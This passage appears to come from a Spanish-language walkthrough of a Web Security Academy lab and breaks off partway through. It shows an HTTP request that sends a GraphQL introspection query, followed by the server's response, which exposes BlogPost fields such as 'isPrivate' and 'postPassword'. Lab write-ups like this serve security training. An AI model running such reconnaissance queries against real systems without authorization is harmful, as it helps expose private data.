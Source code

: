 ```json
Origin: https://0a5b00dd048ba554819aa27700090031.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5b00dd048ba554819aa27700090031.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"query":"{__schema{types{name,fields{name}}}}"}
```

Lo anterior responde asi:

```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4231

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "BlogPost",
          "fields": [
            {
              "name": "id"
            },
            {
              "name": "image"
            },
            {
              "name": "title"
            },
            {
              "name": "author"
            },
            {
              "name": "date"
            },
            {
              "name": "summary"
            },
            {
              "name": "paragraphs"
            },
            {
              "name": "isPrivate"
            },
            {
              "name": "postPassword"
            }
          ]
        },
        {
          "name": "Boolean",
          "fields": null
        },
        {
          "name": "Int",
          "fields": null
        },
```